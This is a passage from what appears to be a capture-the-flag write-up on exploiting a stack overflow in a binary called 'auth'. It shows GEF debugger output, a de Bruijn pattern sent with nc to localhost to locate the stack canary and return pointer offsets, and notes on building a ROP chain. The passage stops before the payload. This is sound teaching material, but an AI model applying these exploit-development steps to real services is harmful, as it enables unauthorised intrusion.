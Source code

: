 ```console
     0x401f80                  mov    rsi, QWORD PTR [rsp+0x28]
●→   0x401f85                  xor    rsi, QWORD PTR fs:0x28
     0x401f8e                  jne    0x401fc0
     0x401f90                  add    rsp, 0x38
     0x401f94                  ret
     0x401f95                  nop    DWORD PTR [rax]
     0x401f98                  cmp    WORD PTR [rsp+0xb], 0x6e
───────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "auth", stopped 0x401f85 in ?? (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401f85 → xor rsi, QWORD PTR fs:0x28
[#1] 0x40200d → mov edx, 0x100
[#2] 0x4018ab → mov edi, ebp
[#3] 0x402860 → mov edi, eax
[#4] 0x401dde → hlt
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Next, we need to find the offset of the canary. First, we send a de Brujin sequence and wait for the
same breakpoint as before to trigger.

```console
$ printf '\naaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa\n' | nc localhost 4444
```

In the debugger, we can see that the stack canary is at offset 24.

```console
gef➤  info reg $rsi
rsi            0x6161616161616164	0x6161616161616164
gef➤  pattern offset 0x6161616161616164
[+] Searching for '0x6161616161616164'
[+] Found at offset 24 (little-endian search) likely
[+] Found at offset 17 (big-endian search)
gef➤
```

Repeating this step and fixing the canary also yields the saved return pointer at offset 40. Now, we
can craft the ROP payload. A useful configuration of the registers at the point of the controlled
return is the contents of the `rdi` register. It appears to be pointing into the buffer of our user
controlled data. We can abuse this in crafting a shorter ROP chain.

```console
gef➤
0x0000000000401f94 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x9606
$rcx   : 0x00007ffc45b9107e  →  0x7ffc45b9118c0a0a
$rdx   : 0x00007ffc45b91048  →  0x0000000000402000  →   call 0x44c430
$rsp   : 0x00007ffc45b91048  →  0x0000000000402000  →   call 0x44c430
$rbp   : 0x29
$rsi   : 0x0
$rdi   : 0x00007ffc45b91055  →  "\nadminAAAAAAAAAAAAAAAAAAA"
$rip   : 0x0000000000401f94  →   ret
$r8    : 0x0
$r9    : 0x0
```